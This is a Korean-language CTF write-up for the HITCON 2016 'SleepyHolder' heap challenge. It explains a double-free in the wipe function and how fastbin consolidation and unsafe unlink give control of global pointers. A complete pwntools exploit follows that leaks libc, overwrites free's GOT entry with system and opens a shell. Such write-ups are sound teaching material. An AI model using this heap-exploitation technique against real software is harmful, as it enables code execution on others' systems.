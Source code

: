 ```yaml
---
layout: post
title: "[2016 hitcon-ctf] SleepyHolder 풀이"
date: 2018-09-13 04:44
categories: "[Pwn]CTF"
tags: rotles98
---
```


>### The Secret Holder has become sleepy and lazy now. nc 52.68.31.117 9547
### [Sleepy Holder](https://github.com/ctfs/write-ups-2016/raw/master/hitcon-ctf-2016/pwn/sleepy-holder-300/SleepyHolder_3d90c33bdbf3e5189febfa15b09ca5ee61b94015)

[how2heap](https://github.com/shellphish/how2heap)의 `fastbin dup consolidate` 문제에요.

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![checksec](/img/2016_hitcon-ctf/SleepyHolder/01.png)
{: refdef}

`small_secret`, `big_secret`, `huge_secret` 이렇게 세 개의 크기로 `chunk`를 할당받을 수 있는데 `huge_secret`은 할당만 받을 수 있고 `func_wipe`, `func_renew`에선 사용할 수 없어여.

그리고 `bss`영역에 `chunk`의 존재 유무를 판단하는 `flag`가 존재하고 `chunk`의 주소도 존재해요.

## `func_keep`

1. `small`, `big`, `huge` 선택

2. 해당 크기의 `flag` 값이 `0`이면 `chunk`가 없다고 판단하고 `calloc` (`0x28`, `0xfa0`, `0x61a80`)

3. (`0x28`, `0xfa0`, `0x61a80`) 만큼 `read`

## `func_wipe`

1. `small`, `big` 선택

2. `flag` 값과 상관없이 `free(chunk)`

3. `flag` 값을 `0`으로 바꿈

## `func_renew`

1. `small`, `big` 선택

2. `flag` 값이 존재하면 (`0x28`, `0xfa0`) 만큼 `read`

- - -
# 0x01. 취약점 분석

`func_wipe`에서 `flag`를 검사 안 해서 취약점이 발생해요.

`fastbin` 크기라도 `free`된 상태에서 `큰 chunk`를 할당하면 `unsorted_bin`이 돼요.

그러면 `big_secret` 기준에선 자기 앞에 있던 `chunk`가 `free`돼서 `prev_inuse` 값이` 0`으로 바뀌어요. (`0xfb1` -> `0xfb0`)

```python
func_keep(1, "A")
func_keep(2, "B")
func_wipe(1)

func_keep(3, "C")
func_wipe(1)
```

{: refdef: style="text-align: center;"}
![func_wipe(1)](/img/2016_hitcon-ctf/SleepyHolder/02.png)
{: refdef}

`small_secret`을 `free`하고 `huge_secret`을 할당받기 전 모습이에요.

{: refdef: style="text-align: center;"}
![func_keep(3)](/img/2016_hitcon-ctf/SleepyHolder/03.png)
{: refdef}

`huge_secret`을 할당받고 `small_secret`을 다시 `free`해서 `small_secret`의 `fd` 값이 없어졌어요.

- - -
# 0x02. 공격 방법

`small_secret`을 한 번 더 `free`해준 이후에 `small_secret`을 새로 할당해도 `big_secret`의 `prev_inuse` 값은 그대로라서 `big_secret`을 `free`하면 `unsafe_unlink`를 사용할 수 있어요.

`small_secret`안에 `fake_chunk`를 만들고 `big_secret`의 `prev_size`를 `0x20`으로 조작하면 `big_secret`이 `free`되면서 `prev_inuse`가 `0`인걸 보고 `big_secret - prev_size - 0x10 **(HEADER)**`에서 `unlink`가 실행돼요.

`big_chunk`의 `prev_size`가 `0x30`에서 `0x20`으로 바뀌어서 `fake_chunk`의 `fd`, `bk`를 가지고 `unlink`가 실행돼여.

```python
func_keep(1, "A")
func_keep(2, "B")
func_wipe(1)

func_keep(3, "C")
func_wipe(1)

payload = p64(0x0) # fake_chunk -> prev_size
payload += p64(0x20) # fake_chunk -> size
payload += p64(small_secret - 0x18) # fake_chunk -> fd
payload += p64(small_secret - 0x10) # fake_chunk -> bk
payload += p64(0x20) # big_secret -> prev_size
func_keep(1, payload)
func_wipe(2)
```

`func_wipe(2)`가 실행되면 `fake_chunk`의 `fd`의 `bk`는 `fake_chunk`의 `bk`로 바뀌어요. `fake_chunk`의 `fd`는 `small_secret`의 주소가 있는 전역변수 - `0x18`에요.

즉, 전역변수 부분에 `fake_chunk`의 `bk`가 들어가요. 그리고 `fake_chunk`의 `bk`의 `fd`가 `fake_chunk`의 `fd`로 바뀌는데 결과적으론 전역변수 부분에 `fake_chunk`의 `fd`가 들어가요.

`unlink`가 끝나면 전역변수 부분엔 `자신의 주소 - 0x18`가 들어있어요.

전역변수는 원래 `small_secret`의 주소가 들어있으니까 지금 `func_renew`를 하면 `전역변수 - 0x18`부터 원하는 값을 넣을 수 있고 그러면 `small_secret`, `big_secret`을 원하는 걸로 바꿀 수 있어요.

- - -
# 0x03. 익스플로잇

처음 풀 땐 `unsafe_unlink` 때문에 고생했는디 다시 푸니까 쉽네요.

```python
from pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = "52.68.31.117"
PORT = 4444
#PORT = 9547

s = remote(HOST, PORT)
pause()

elf = ELF("./SleepyHolder")
libc = ELF("./libc.so.6")

free_got = elf.got["free"]
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

puts_off = libc.symbols["puts"]
system_off = libc.symbols["system"]

small_secret = 0x6020D0

def func_keep(size, content):
    s.recvuntil("3. Renew secret\n")
    s.sendline("1")

    s.recvuntil("2. Big secret\n")
    s.sendline(str(size))

    s.recvuntil("Tell me your secret: \n")
    s.send(content)

def func_wipe(size):
    s.recvuntil("3. Renew secret\n")
    s.sendline("2")

    s.recvuntil("2. Big secret\n")
    s.sendline(str(size))

def func_renew(size, content):
    s.recvuntil("3. Renew secret\n")
    s.sendline("3")

    s.recvuntil("2. Big secret\n")
    s.sendline(str(size))

    s.recvuntil("Tell me your secret: \n")
    s.send(content)

func_keep(1, "A")
func_keep(2, "B")
func_wipe(1)

func_keep(3, "C")
func_wipe(1)

payload = p64(0x0) # fake_chunk -> prev_size
payload += p64(0x20) # fake_chunk -> size
payload += p64(small_secret - 0x18) # fake_chunk -> fd
payload += p64(small_secret - 0x10) # fake_chunk -> bk
payload += p64(0x20) # big_secret -> prev_size
func_keep(1, payload)
func_wipe(2)

payload = "A"*0x8
payload += p64(puts_got) # big_secret
payload += "A"*0x8 # huge_secret
payload += p64(free_got) # small_secret
payload += p64(0x1) # big_flag
func_renew(1, payload)
func_renew(1, p64(puts_plt)) # free_got -> puts_plt -> puts_got -> puts

func_wipe(2) # libc_leak
real_puts = u64(s.recvuntil("\x7f").ljust(8, "\x00"))

real_base = real_puts - puts_off
real_system = real_base + system_off

print
log.info("real_base : " + hex(real_base))
log.info("real_puts : " + hex(real_puts))
log.info("real_system : " + hex(real_system))
print

func_renew(1, p64(real_system)) # free_got -> real_system

func_keep(2, "/bin/sh\0")
func_wipe(2)

s.interactive()
```

### hitcon{The Huuuuuuuuuuuge Secret Really MALLOC a difference!}
